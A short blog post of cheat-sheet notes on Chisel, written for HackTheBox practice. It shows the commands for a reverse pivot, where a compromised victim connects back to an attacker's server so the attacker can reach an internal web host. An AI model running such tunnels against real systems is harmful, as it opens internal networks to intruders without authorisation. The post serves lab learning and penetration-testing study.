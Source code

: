 ```yaml
---
layout: post
title: My Notes about Chisel (Tool for Tunneling)
tags: [System Hacking, Chisel]
comments: true
---
```


Hey guys today i am sharing my little notes about a insane tool called **chisel**. Chisel, one of the tool i am using mostly while doing HackTheBox.

Thanks to **ippsec** for teaching me about chisel.

I will show you some important usages of chisel with example.

## Chisel cheat sheet.

### Reverse Pivot - Example

* Here attacker IP is **10.14.14.14** and client IP is **10.10.10.10**.

* start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 --reverse
~~~

   * --reverse : Tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box.

* from victim (10.10.10.10 is client) 

~~~
chisel client 10.14.14.14:8000 R:8001:172.18.0.3:80 (This will listen on port 8001 on all interface on attacker box). (Bad way)
~~~

~~~
chisel client 10.14.14.14:8000 R:127.0.0.1:8001:172.18.0.3:80 (Best way)
~~~

    * chisel connect to server 
    
    * and open port 8001 on remote box which is on server. R is for remote
    
    * if any packet on server:8001 it will go through tunnel we created through 8000 and then send it out to 172.18.0.3:80
    
So now we can do a curl command from our kali box and we can now access website running on 172.18.0.3:80.




    
   
